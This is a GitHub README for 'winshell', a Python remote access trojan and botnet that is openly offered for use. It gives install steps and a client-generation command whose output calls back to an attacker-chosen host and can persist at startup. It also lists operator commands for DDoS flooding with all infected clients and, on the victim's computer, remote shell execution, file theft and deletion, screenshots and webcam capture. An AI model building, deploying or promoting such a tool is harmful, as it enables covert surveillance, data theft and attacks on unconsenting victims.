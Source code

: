# winshell

**winshell is a python opensource RAT and Botnet**

### Installation
 - ####     Windows
   - `git clone https://github.com/Z4RK/winshell.git`
   - `cd winshell`
   - `pip install -r requierements.txt`
 - #### Linux
   - `git clone https://github.com/Z4RK/winshell.git`
   - `cd winshell`
   - `./install.sh`
   - `pip install -r requierements.txt`

### Features
 - The client can be compiled into an executable file
 - Supports multi-clients
 - The server can be run on Linux / Windows
 - The program can perform denial of service attacks with all clients connected to the server
 - Can execute all shell commands
 - Can upload and download file
 - Can run the client at startup
 - Can browse files & more...
 
### Usage
 - #### Generate the client
   - `python generate.py --host <server hostname> --port <port to use> [--out <output name>|--addstartup]`
 - #### Server commands
   - **Commands in the winshell menu**
     - `list client` list all clients connected on the server
     - `interact <client id>` start a session with a client
     - `flood <url/ip>` do a denial of service attacks with all clients connected
     - `quit` quit winshell
   - **Commands with a remote session**
     - `help` show this message
     - `upload <arg>` upload a file
     - `download <arg>` download a file
     - `cd <arg>` change directory
     - `ls` list files in current directory
     - `rm <arg>` remove a file
     - `rmdir <arg>` remove a directory
     - `screenshot` take a screenshot from the victim computer
     - `webcam_snap` taka a webcam picture form the victim computer
     - `getpid` get the current process id
     - `ps` list running process
     - `search <arg>` filter running process by name
     - `currentporcess` get the current process run on the victim computer
     - `force <arg>` do a shell command with an output (ipconfig, dir)
     - `force2 <arg>` do a shell command without an output(mkdir, start...)
     - `quit` quit the session
     # 
     
     [![PythonV](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/download/releases/2.7/)
